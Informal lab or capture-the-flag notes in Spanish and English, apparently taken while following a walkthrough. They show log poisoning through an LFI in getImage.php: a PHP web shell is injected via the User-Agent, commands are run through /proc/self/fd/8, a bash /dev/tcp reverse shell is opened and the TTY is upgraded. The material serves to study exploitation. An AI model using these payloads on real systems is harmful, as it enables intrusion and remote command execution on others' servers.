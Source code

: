 No entendi mucho el punto de esta parte, pudimos ver informacion. Pero la idea del muchacho es meter codigo php en la peticion. 

Cuando ponemos probando y que nos de un erro de la pagina tenemos otra cosa si en burpsuit lo vemos

We can see the " probando " log to the apache server
![[logs.png]]

tirando del /proc/self/fd/8 podemos ver los logs. 

la idea es log poisoning

dice que hay que representar codigo php en el navegador.. y si pudieramos hacerlo deberia poder interpretarse.

Por el user agent, dice que podemos manipularlo

se inyectaria codigo en la parte que dice "user agent"

We must put something like this
```
<?php system('whoami'); ?>
```

and now.. we can see it in the place of the "logs", and we are www-data

![[logsdwq.png]] 

Dice "yo mas que insertar el comando a ejecutar quiero controlar el comando a travez de un parametro"
por ejemplo
```
($_GET['cmd'])
```
"yo voy a crear un parametro CMD a travez del cual cuando yo le diga ?cmd=whoami" que ese whoami me lo pase como cadena, para que luego se ejecute el comando, pero el comando que yo quiera, voy a tener control

This is the comand
```
<?php system($_GET['cmd']); ?>
```

if we look now on the url, before sending the comand on the user agent.. 
```
http://192.168.100.58//cgi-data/getImage.php?file=/proc/self/fd/8&cmd=pwd
```

so.. if we can execute commands, we now are going to listen with netcat and execute comands on a terminal sending the command
bash -c "bash -i >%26 /dev/tcp/192.168.100.4/443 0>%261"

and it works



treatment to the console 
script /dev/null -c bash
ctrl +z 
stty raw -echo; fg
reset xterm
TERM=xterm
